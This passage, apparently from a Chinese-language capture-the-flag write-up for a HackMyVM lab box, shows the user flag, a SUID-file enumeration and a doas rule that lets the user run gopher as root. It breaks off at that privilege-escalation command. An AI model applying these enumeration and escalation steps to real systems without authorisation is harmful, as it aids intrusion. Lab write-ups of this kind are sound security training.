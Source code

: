 由于采用的是 Auth 结构，所以上文提供的那些 Verification code 都是可以用的

:::

### flag - user

```shell
susan@eighty:~$ cat user.txt
hmv8use0red
```

### 环境探测

```plaintext title="find / -perm -u=s -type f 2>/dev/null"
/usr/local/bin/doas
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/eject/dmcrypt-get-device
/usr/lib/openssh/ssh-keysign
/usr/bin/chfn
/usr/bin/gpasswd
/usr/bin/passwd
/usr/bin/umount
/usr/bin/su
/usr/bin/newgrp
/usr/bin/chsh
/usr/bin/mount
```

发现存在 doas 程序，读取其配置文件

```plaintext title="/usr/local/etc/doas.conf"
permit nolog susan as root cmd gopher
```

## User - root

```shell
susan@eighty:~$ doas -u root gopher localhost 70
```

执行这条指令之后，输入用户密码，就能以 root 的身份执行 gopher 程序，应该能够看到以下界面
